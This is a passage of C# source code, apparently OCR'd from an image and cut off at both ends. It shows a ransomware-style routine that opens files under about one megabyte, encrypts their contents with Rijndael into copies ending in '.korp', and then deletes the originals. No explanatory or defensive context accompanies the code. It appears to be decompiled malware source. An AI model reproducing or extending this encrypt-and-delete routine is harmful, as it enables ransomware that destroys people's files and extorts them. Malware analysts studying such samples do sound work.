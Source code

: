```c#
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
  try
  {
    fileStream = new FileStream(file, FileMode.Open, FileAccess.ReadWrite);
  }
  catch (Exception ex2)
  {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine(ex2.Message);
    Console.ForegroundColor = ConsoleColor.Red;
  }
  if (fileStream.Length < 1000000L)
  {
    string path = null;
    FileStream fileStream2 = null;
    CryptoStream cryptoStream = null;
    try
    {
      path = file + ".korp";
      fileStream2 = new FileStream(path, FileMode.Create, FileAccess.Write);
      cryptoStream = new CryptoStream(fileStream2, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write);
    }
    catch (Exception ex3)
    {
      Console.ForegroundColor = ConsoleColor.Red;
      Console.WriteLine(ex3.Message);
      Console.ForegroundColor = ConsoleColor.Red;
    }
    try
    {
      int num;
      do
      {
        num = fileStream.Read(array, 0, array.Length);
        if (num != 0)
        {
          cryptoStream.Write(array, 0, num);
        }
      }
      while (num != 0);
      fileStream.Close();
      cryptoStream.Close();
      fileStream2.Close();
    }
    catch (Exception ex4)
    {
      Console.ForegroundColor = ConsoleColor.Red;
      Console.WriteLine(ex4.Message);
      Console.ForegroundColor = ConsoleColor.Red;
    }
    try
    {
      File.Delete(file);
      return;
    }
    catch (Exception)
    {
      File.Delete(path);
```